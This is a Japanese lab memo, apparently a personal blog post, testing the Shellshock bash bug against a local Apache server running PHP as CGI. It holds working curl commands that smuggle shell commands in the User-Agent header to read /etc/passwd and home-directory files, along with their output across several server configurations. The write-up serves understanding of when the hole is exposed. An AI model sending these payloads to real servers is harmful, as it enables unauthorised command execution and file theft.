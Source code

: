 ```yaml
---
Keywords: CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。

こういうファイルを準備。
```bash
[root@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/env php

<?php
	system('date');
?>
```

<!--more-->

httpd.confのOptionsのところにExecCGIを追加し、
下にAddHandlerを書く。

```bash
 Options Indexes FollowSymLinks ExecCGI
 AddHandler cgi-script php
```

ホームの下にファイルを準備
```bash
[ueda@localhost ~]$ ls -l mysecret 
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret
[ueda@localhost ~]$ cat mysecret 
私の秘密
```

外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php
```

ログを確認。パーミッションで守られている。
```bash
[root@localhost httpd]# tail error_log 
...
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: 
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] 
```

もう一度突っつく。別のものを。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
守られていない・・・。


今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。
```bash
[root@localhost httpd]# cat /var/www/html/index.php 
<?php
	system('date');
?>
```

もう一度突っつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
Fri Oct 3 20:27:38 JST 2014
```
大丈夫。

もう一度CGIモードで。こんなコード。
```bash
[root@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

<?php
	print("hoge\\n");
?>
```

```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2> /dev/null
hoge
```

大丈夫。

これは・・・
```bash
[root@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

<?php
	system("date");
?>
```

ダメ。
```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2> /dev/null
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
